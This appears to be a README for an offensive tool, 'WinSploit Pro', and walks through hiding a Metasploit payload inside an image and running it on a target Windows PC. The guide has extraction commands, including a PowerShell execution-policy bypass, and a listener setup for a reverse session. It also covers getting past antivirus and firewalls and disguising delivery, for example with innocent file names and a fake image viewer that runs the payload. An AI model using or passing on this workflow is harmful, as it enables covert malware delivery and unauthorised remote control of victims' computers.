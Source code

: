 # 🔐 WinSploit Pro - Complete Steganography Workflow

## ❗ IMPORTANT: Understanding the Issue

When you use steganography to hide a payload in an image, **the payload is embedded INSIDE the image file**. Simply transferring the steganographic image to the target Windows PC **does NOT automatically execute the payload**. 

**You need to EXTRACT the payload first on the target system!**

## 🎯 Complete Workflow

### Step 1: Create Steganographic Image (On Kali/Linux)

1. **Start WinSploit Pro:**
   ```bash
   ./activate_and_run.sh
   ```

2. **Generate and hide payload:**
   - Choose option `9` (Steganography)
   - Choose option `5` (Generate Payload + Hide in Image)
   - Select an image (use test images or your own)
   - Choose encryption (recommended)
   - Note the LHOST and LPORT values!

3. **Start your listener:**
   - Choose option `5` (Start Metasploit Listener)
   - Use the same LHOST and LPORT from step 2

### Step 2: Transfer Files to Target Windows PC

You need to transfer **TWO things** to the target:

1. **The steganographic image** (e.g., `stego_vacation.png`)
2. **One of the extraction tools:**
   - `windows_extractor.py` (requires Python)
   - `extract_and_run.bat` (batch file)
   - `Extract-Payload.ps1` (PowerShell script)

### Step 3: Extract and Execute on Target Windows PC

#### Option A: Using Python (if available on target)
```cmd
python windows_extractor.py stego_vacation.png [password]
```

#### Option B: Using Batch File
```cmd
extract_and_run.bat stego_vacation.png [password]
```

#### Option C: Using PowerShell
```powershell
PowerShell -ExecutionPolicy Bypass -File Extract-Payload.ps1 -ImagePath stego_vacation.png -Password mypassword
```

### Step 4: Check Your Listener

After successful extraction and execution, you should see a session in your Metasploit listener!

## 🔧 Troubleshooting

### Problem: "No session in Metasploit"

**Possible causes:**

1. **Payload not extracted/executed on target**
   - Solution: Make sure you ran the extraction script on the Windows PC
   - Check if antivirus blocked the extraction/execution

2. **Wrong LHOST/LPORT**
   - Solution: Verify the listener uses the same LHOST/LPORT as when you generated the payload

3. **Firewall blocking connection**
   - Solution: Check Windows Firewall and network firewalls

4. **Network connectivity issues**
   - Solution: Ensure the Windows PC can reach your Kali machine

### Problem: "Python not found on Windows"

**Solutions:**
1. Install Python on the target Windows PC
2. Use a different delivery method (direct payload transfer)
3. Create a standalone executable extractor

### Problem: "Missing Python libraries"

On the Windows target, install required libraries:
```cmd
pip install Pillow stegano cryptography
```

## 🎯 Alternative Approaches

### Method 1: Manual Payload Delivery
If steganography is too complex for your target:
1. Generate payload normally (option 4)
2. Transfer the `.exe` file directly
3. Execute it manually on target

### Method 2: Embedded Extractor
Create a self-contained executable that includes the extraction logic.

### Method 3: Social Engineering Script
Create a script that looks like a legitimate image viewer but extracts and executes the payload.

## 📋 Verification Checklist

Before blaming the steganography feature, verify:

- [ ] Listener is running with correct LHOST/LPORT
- [ ] Steganographic image was transferred to target
- [ ] Extraction script was transferred to target  
- [ ] Extraction script was executed on target
- [ ] No antivirus interference
- [ ] Network connectivity between target and attacker
- [ ] Correct password used (if encrypted)

## 🔍 Testing Locally

To test if your steganographic image works:

1. **Create test payload and hide it:**
   ```bash
   # In WinSploit Pro
   9 → 5 → select image → set password
   ```

2. **Test extraction locally:**
   ```bash
   source venv/bin/activate
   python windows_extractor.py stego_image.png password123
   ```

3. **Verify payload was extracted and can run**

## 💡 Pro Tips

1. **Always test locally first** before deploying to targets
2. **Use realistic image names** (vacation_photos.png, not stego_payload.png)
3. **Consider file size** - large images may be suspicious
4. **Have backup delivery methods** ready
5. **Test on similar Windows versions** as your target

## 🚨 Why Regular Payloads Work But Steganographic Ones Don't

**Regular payload workflow:**
1. Generate .exe → Transfer .exe → Execute .exe → Connection established ✅

**Steganographic payload workflow:**
1. Generate .exe → Hide in image → Transfer image → **MISSING STEP** → No connection ❌
2. **Correct workflow:** Generate .exe → Hide in image → Transfer image → **Extract .exe** → Execute .exe → Connection established ✅

The key difference is the **extraction step** that many people miss!

---

**Remember: Steganography is about HIDING the payload, not EXECUTING it. You still need to extract and execute the hidden payload on the target system!**
